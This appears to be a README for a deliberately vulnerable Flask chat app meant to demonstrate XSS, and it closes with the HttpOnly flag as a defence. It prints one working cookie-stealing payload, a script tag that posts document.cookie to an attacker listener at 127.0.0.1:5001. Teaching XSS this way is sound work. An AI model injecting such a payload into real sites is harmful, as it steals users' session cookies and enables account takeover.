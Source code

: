 # **Chat WebApp with Flask**

Building an vulnerable chat web app with Flask, socket programming to demostrate XSS attacks.


Attacker's injection: `<script>$.ajax({ url : 'http://127.0.0.1:5001/listen', type : 'POST', data : { 'cookie' : document.cookie }, success : function(response) {}, error : function(error) {} })</script>`

A good way to prevent XSS attacks on cookies is to set the `HttpOnly` flag of the cookie. This makes the cookie unavailable to scripting languages like JavaScript.

Give me a star if this has helped you in anyway!
